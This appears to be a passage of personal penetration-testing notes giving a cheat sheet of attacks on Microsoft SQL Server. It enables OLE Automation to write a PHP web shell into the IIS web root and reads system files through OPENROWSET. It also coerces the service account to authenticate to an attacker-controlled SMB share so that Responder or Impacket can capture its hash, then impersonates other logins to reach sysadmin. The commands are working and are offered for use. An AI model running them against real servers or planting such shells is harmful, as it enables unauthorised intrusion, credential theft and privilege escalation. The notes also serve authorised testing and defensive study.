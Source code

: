 ### Write Local Files
```shell
# Enable Ole Automation Procedures to write files
sp_configure 'show advanced options', 1
RECONFIGURE
sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

# create file
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```
### Read Local Files
```shell
# list
xp_dirtree \

SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```

### Capture MSSQL Service Hash
```shell
EXEC master..xp_dirtree '\\<attcker ip>\share\'

EXEC master..xp_subdirs '\\<attcker ip>\share\'
```
open the responder or  impacket
```
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
```
catch the whole hash 
![Screenshot_17](https://github.com/kiro6/penetration-testing-notes/assets/57776872/4eb852f0-5a37-4d2e-bafc-c40afaf7bcef)

### Impersonate Existing Users with MSSQL
prefereed to move the master DB using `USE master`
```shell 
# Identify Users that We Can Impersonate
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'

# Verifying our Current User and Role
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

# Impersonating the amother user User
EXECUTE AS LOGIN = 'another user'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')

```
